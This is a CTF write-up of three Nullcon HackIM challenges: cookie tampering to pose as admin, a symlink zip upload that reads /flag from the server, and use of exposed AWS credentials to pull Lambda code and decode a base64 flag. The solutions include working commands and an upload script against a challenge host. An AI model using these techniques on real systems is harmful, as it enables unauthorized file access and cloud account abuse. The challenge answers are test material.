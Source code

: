# Nullcon HackIM CTF

Category : **WEB**

## Challenge - Reguest

Description : HTTP requests and libraries are hard. Sometimes they do not behave as expected, which might lead to vulnerabilities.

## **Solution :**

On visiting the page , it shows with some instruction and cookies.

![ctf01.png](Nullcon/ctf01.png)

```php
role = request.cookies.get('role','guest')
	really = request.cookies.get('really', 'no')
	if role == 'admin':
		if really == 'yes':
			resp = 'Admin: ' + os.environ['FLAG']
		else:
			resp = 'Guest: Nope'
	else:
		resp = 'Guest: Nope'
	return Response(resp, mimetype='text/plain')
```

Look at the code , the role variable has the ‘role’ cookie and really variable has the ‘really’ cookie and it checks whether the role cookie is equals to admin and really cookie equals to yes . 

If both role and really equals to admin and yes respectively , we will get flag !!.

Now , we have to set the cookies role = admin and really = yes …

Flag : `ENO{R3Qu3sts_4r3_s0m3T1m3s_we1rd_dont_get_confused}`

## Challenge : zpr

Description : My colleague built a service which shows the contents of a zip file. He says there's nothing to worry about.…

## Solution:

The webpage shows with some instruction as make a zipfile as post request !!.

![ctf02.png](Nullcon/ctf02.png)

So, we have to send zip file to the server.They gave the actual backend code for the challege.

```python
def upload():
	output = io.StringIO()
	if 'file' not in request.files:
		output.write("No file provided!\n")
		return Response(output.getvalue(), mimetype='text/plain')

	try:
		file = request.files['file']

		filename = hashlib.md5(secrets.token_hex(8).encode()).hexdigest()
		dirname = hashlib.md5(filename.encode()).hexdigest()

		dpath = os.path.join("/tmp/data", dirname)
		fpath = os.path.join(dpath, filename + ".zip")

		os.mkdir(dpath)
		file.save(fpath)

		with zipfile.ZipFile(fpath) as zipf:
			files = zipf.infolist()
			if len(files) > 5:
				raise Exception("Too many files!")

			total_size = 0
			for the_file in files:
				if the_file.file_size > 50:
					raise Exception("File too big.")

				total_size += the_file.file_size

			if total_size > 250:
				raise Exception("Files too big in total")

		check_output(['unzip', '-q', fpath, '-d', dpath])

		g = glob.glob(dpath + "/*")
		for f in g:
			output.write("Found a file: " + f + "\n")

		output.write("Find your files at http://...:8088/" + dirname + "/\n")

	except Exception as e:
		output.write("Error :-/\n")

	return Response(output.getvalue(), mimetype='text/plain')
```

On looking up the code, we can see that the website extracts our archive .It should have checked for any symlinks associated with the zip file but it doesn’t.

We have to create the zip file with symlink!!

```bash
ln -s /flag flag.txt
zip --symlinks flag.zip flag.txt
```

So, now we have to upload this zip file to the server using python.

```python
import requests

URL = "http://52.59.124.14:10015/"
files = {'file': open('flag.zip', 'rb')}
getdata = requests.post(URL, files=files)
print(getdata.content)
```

![ctf03.png](Nullcon%20HackIM%20CTF%20fe5a0190811f41cfa761fb017ffe61fc/ctf03.png)

We have a path to the uploaded zip file , on visiting to that path we can able to see the zip file with flag.txt@ 

Got the flag using flag.txt@ file!!.

Flag : `ENO{Z1pF1L3s_C4N_B3_Dangerous_so_b3_c4r3ful!}`


Category : **Cloud**

## Challenge : Rain checks

Description : So many options to make sure everything stays as it is. Let's use them all.

Attachments :  **exposed-user-credentials.txt, policy-exposed-user.json**

### Solution:

The exposed-user-credentials.txt has aws Access Key ID, AWS Secret Access Key .Using this , we can able to configure aws-cli using the command 

```bash
aws configure
```

the policy-exposed-user.json contains

```bash
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": [
                "lambda:GetLayerVersion",
                "lambda:GetFunction",
                "lambda:GetLayerVersionPolicy"
            ],
            "Resource": "*",
            "Condition": {
                "Bool": {
                    "aws:MultiFactorAuthPresent": "true"
                }
            }
        },
        {
            "Sid": "VisualEditor1",
            "Effect": "Allow",
            "Action": [
                "lambda:UpdateFunctionCode",
                "lambda:InvokeFunction"
            ],
            "Resource": "arn:aws:lambda:eu-central-1:743296330440:function:lambda-confirm-secret",
            "Condition": {
                "Bool": {
                    "aws:MultiFactorAuthPresent": "true"
                }
            }
        }
    ]
}
```

Using this file , we can able to find the region (eu-central-1) and it using lambda function.

aws has the method get-function returns information about the function or function version, with a link to download the deployment package that's valid for 10 minutes.

```bash
aws lambda get-function --function-name lambda-confirm-secret
```

Using this , we can able to download the lamba-confirm-secret python file and it also gives two more function names in the output.

```bash
lambda-aws-config-confirm-state-of-lambda
lambda-aws-config-confirm-state-of-secrets
```

Again, we have to download the python code of the above two functions using the get-function method.

In the lambda-aws-config-confirm-state-of-secrets , it has method called **correct_secret()**

```bash
def correct_secret():
    secret_name = "flag1"
    region_name = "eu-central-1"

    session = boto3.session.Session()
    client = session.client(
        service_name='secretsmanager',
        region_name=region_name
    )

    response = client.put_secret_value(
    SecretId=secret_name,
    SecretString=base64.b64decode('RU5Pe04wX0VkMXRfU3QxbGxfVnVsbn0='))
```

This code have some base64 enocoded value , decode it and get the flag !!.

```bash
echo "RU5Pe04wX0VkMXRfU3QxbGxfVnVsbn0=" | base64 -d
```

Flag : `ENO{N0_Ed1t_St1ll_Vuln}`
